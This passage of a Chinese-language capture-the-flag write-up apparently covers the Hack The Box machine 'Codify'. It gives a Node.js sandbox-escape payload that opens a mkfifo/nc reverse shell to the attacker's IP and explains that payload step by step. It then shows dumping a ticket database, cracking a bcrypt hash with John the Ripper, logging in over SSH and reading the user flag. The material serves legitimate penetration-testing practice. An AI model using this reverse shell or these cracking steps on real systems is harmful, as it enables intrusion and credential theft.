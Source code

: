 #### (3) Reverse shell

```node.js=26
c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.48 8666 >/tmp/f');
```
**● mkfifo**:mkfifo 是一個在 Unix/Linux 系統上用來建立 FIFO (First In, First Out) 特殊文件的命令。FIFO 通常用於Process之間的通信，但在反向 shell 的情境下，攻擊者可以使用 mkfifo 來建立一個命名的管道，並通過該管道將 shell 的輸出和輸入轉發到攻擊者的機器上。
**● nc mkfifo**: 利用 mkfifo 建立 FIFO，接著利用管道(pipe)把 FIFO 的資料流導給 /bin/sh 互動模式，同時把 /bin/sh 的標準錯誤(stderr)重新導向到標準輸出(stdout)，再把標準輸出的資料流導到 nc ，最後把 nc 接收或產生的資料流導回 FIFO，如此一來 nc 的客戶端就可以執行指令並且看到指令執行的結果。
[● Reverse Shell Generator](https://www.revshells.com/)
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.48 8666 >/tmp/f
(1)刪除 /tmp/f 暫存檔
(2)建立 named pipe
(3)將 /tmp/f 的內容輸出到stdout
(4)互動式的 shell，將stderr導向到stdout。為確保 shell 互動的輸出和輸入都通過管道。
// 2>&1: 這是一個 I/O 重定向的部分。2 代表stderr，>&1 告訴 shell 將標準錯誤重定向到與stdout 相同的地方。
(5)建立ncat TCP 連線，將shell 的stdin和stdout與遠端的連線相連。
(6)將 nc command 的輸出（遠端 shell 的輸入）重新導向到 /tmp/f

> nc -nvlp 8666

![image](https://hackmd.io/_uploads/BJK5O0O4a.png)

### 4. John-the-Ripper SQLite database
在 /var/www/contact 找到 tickets.db 
> cat /var/www/contact/tickets.db

![image](https://hackmd.io/_uploads/r1-c9AOEa.png)
>joshua$ 2a$ 12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

● [bcrypt: $ 2a $](https://en.wikipedia.org/wiki/Bcrypt)

> cat Codify.txt
> $ 2a$ 12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
> john --wordlist=rockyou.txt ./Codify.txt

![image](https://hackmd.io/_uploads/HkBEX1KN6.png)
> spongebob1       (?)
### 5. SSH joshua@10.10.11.239
> ssh joshua@10.10.11.239

![image](https://hackmd.io/_uploads/r1K6QkKNa.png)

### 6. Get User Flag
> joshua@codify:~$ ls
pspy64  user.txt
joshua@codify:~$ cat user.txt
68bba3c12d30c16aab5f68a01a884db0

![image](https://hackmd.io/_uploads/S1D5VJF4p.png)
> **FLAG: 68bba3c12d30c16aab5f68a01a884db0**
